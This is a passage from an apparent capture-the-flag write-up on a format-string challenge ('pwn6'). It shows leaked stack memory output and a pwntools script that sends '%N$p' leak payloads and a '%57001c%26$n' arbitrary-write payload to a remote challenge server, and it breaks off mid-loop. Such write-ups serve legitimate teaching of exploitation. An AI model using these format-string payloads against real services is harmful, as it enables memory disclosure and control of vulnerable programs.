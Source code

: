 ```console
b'\xf4\x90H\x8d=). 0x560a948af21e 0x2e293d8d4890f4 35'
b'\x1c 0x7fff0fb76318 0x1c 36'
b'pwn6 0x7ffdf4d72f5c 0x366e7770 39'
b'(null) (nil) 0x2820296c6c756e28 40'
b'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 0x7ffdd55a4f61 0x73752f3d48544150 41'
b'HOSTNAME=70e208321dbb 0x7ffd95f00fa3 0x454d414e54534f48 42'
b'user=pwn6 0x7fffabdc8fb9 0x6e77703d72657375 43'
b'HOME=/home/pwn6 0x7ffd44407fc3 0x6f682f3d454d4f48 44'
b'REMOTE_HOST=10.0.0.3 0x7ffea9b30fd3 0x485f45544f4d4552 45'
b'(null) (nil) 0x2820296c6c756e28 46'
b'\x7fELF\x02\x01\x01 0x7ffe8beb9000 0x10102464c457f 48'
b'\x06 0x5608a1023040 0x6 56'
b'\x7fELF\x02\x01\x01 0x7f224ba9c000 0x10102464c457f 62'
b'(null) (nil) 0x2820296c6c756e28 64'
b'\xf3\x0f\x1e\xfa1\xedI\x89\xd1^H\x89\xe2H\x83\xe4\xf0PTL\x8d\x05F\x01 0x55dec82f61f0 0x8949ed31fa1e0ff3 66'
b'(null) (nil) 0x2820296c6c756e28 76'
b'\xf5I\xa3n<\x86\xd6\x13\xbb\xa9$\xdf6\xd5\x86\xddx86_64 0x7ffe30e7adb9 0x13d6863c6ea349f5 78'
b'(null) (nil) 0x2820296c6c756e28 80'
b'/home/pwn6/pwn6 0x7ffed176ffe8 0x77702f656d6f682f 82'
b'x86_64 0x7ffd8dd10819 0x34365f363878 84'
...
```

This output does not seem immediately important so we can try another method. In the following
script, the `run_leak(p, b'%57001c%26$n')` line can be updated to write the short value of `0xdead`
to an address at an index in the stack.

```python
#!/usr/bin/python

from pwn import *

#context.log_level = 'debug'
context.update(arch = 'amd64', os = 'linux')


def run_leak(p, payload):
    prefix = b"XXXX"
    total = prefix + payload
    p.sendline(total)
    p.recvuntil(prefix)
    data = p.recv()
    return data


def leak_str(p, windex, index):
    payload = ('AAAA' + '%' + str(index) + '$p' + 'CCCC').encode('utf-8')
    r = run_leak(p, payload)
    string = r[4:-4]
    return string

def main():
    p = remote('fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg', 42000)
    baseline = []
    i = 17

    #run_leak(p, b'%57001c%17$n')
    #run_leak(p, b'%57001c%17$n')
    run_leak(p, b'%57001c%26$n')
    for j in range(1, 100):
        leaked_string = leak_str(p, i, j)
        if b'nil' in leaked_string or b'$' in leaked_string:
```